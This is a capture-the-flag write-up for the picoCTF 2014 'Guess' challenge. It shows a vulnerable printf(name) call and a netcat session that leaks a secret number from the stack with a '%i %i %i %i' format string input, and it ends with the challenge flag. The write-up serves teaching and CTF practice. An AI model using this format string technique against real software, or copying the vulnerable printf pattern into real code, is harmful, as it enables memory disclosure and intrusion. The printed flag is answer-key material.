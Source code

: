 ## Guess - 75 (Binary Exploitation) ##
#### Writeup by Oksisane

### Problem ###

This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](https://picoctf.com/problem-static/binary/Guess/guess.c).
### Hint ###

The only way to combat secure randomness is to leak the secret.

## Answer ##

### Overview ###

Exploit a basic format string vulnurability.

### Details ###

Looking at the source code, these lines immediately stand out:

```c
printf("Hello! What is your name?\n");

fgets(name, sizeof(name), stdin);

printf("Welcome to the guessing game, ");
printf(name);
```
Here we can see that the program reads in your name, then prints it using `printf`. `printf`, when called on user input, has a set of very serious vulnurabilities that let us read and write to the stack (see the writeup on Format for more detail). This means we can print out the next integer on the stack by setting our name as `%i`, the next two by setting our name as `%i %i`, repeated as many times as we need to print out the randomly generated number. As it turns out, the integer we want is in the 4th position, so we enter our name as `%i %i %i %i` and then enter the number to pass the check!
```sh
$ nc vuln2014.picoctf.com 4546
Hello! What is your name?
%i %i %i %i
Welcome to the guessing game, 32 -143569888 160419848 765327463

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
765327463
Wow! You guessed it!
Your flag is: leak_the_seakret
```
### Flag ###

    leak_the_seakret





